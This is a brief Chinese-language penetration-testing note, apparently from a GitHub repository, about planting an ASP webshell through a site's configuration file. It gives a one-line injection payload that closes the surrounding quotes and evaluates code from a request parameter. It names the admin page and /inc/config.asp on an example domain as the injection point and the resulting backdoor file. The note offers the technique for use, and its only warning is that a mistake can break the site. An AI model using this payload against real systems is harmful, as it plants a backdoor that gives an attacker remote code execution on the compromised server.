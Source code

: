 **配置文件拿WEBSHELL** 

这种风险是很大的 插入出错会导致整个网站坏掉。一般在asp里面 网站的配置文件就在/inc/config.asp里面

配置内容不是插入数据库里面的，也不是从数据库里面读出来的，可以采用这种方法拿WEBSHELL

http://www.aspasp.com/admin/

```
"%><%eval request("d")%><%s="
```

![image-20210502233214749](../acess/image-20210502233214749.png)

闭合前面的  闭合后面的内容

插入一句话的文件

http://www.aspasp.com/inc/config.asp